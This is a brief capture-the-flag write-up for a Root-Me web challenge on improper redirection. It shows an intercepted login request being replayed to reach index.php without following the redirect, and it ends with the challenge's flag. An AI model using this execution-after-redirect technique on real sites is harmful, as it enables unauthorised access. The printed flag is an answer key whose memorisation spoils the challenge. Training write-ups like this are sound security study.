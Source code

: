 # HTTP - Improper redirection

> Get access to index.

<figure><img src="../../.gitbook/assets/1 (97).png" alt=""><figcaption></figcaption></figure>

Let's enter `admin` in both the fields and intercept the request.

<figure><img src="../../.gitbook/assets/2 (92).png" alt=""><figcaption></figcaption></figure>

We can now forward the request to the `Repeater` and modify it.

## HTTP Request

```
POST /web-serveur/ch32/index.php HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697428943.14.1.1697430697.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

login=admin&password=admin
```

Finally we have to send it to the server.&#x20;

<figure><img src="../../.gitbook/assets/3 (80).png" alt=""><figcaption></figcaption></figure>

## Flag

```
ExecutionAfterRedirectIsBad
```
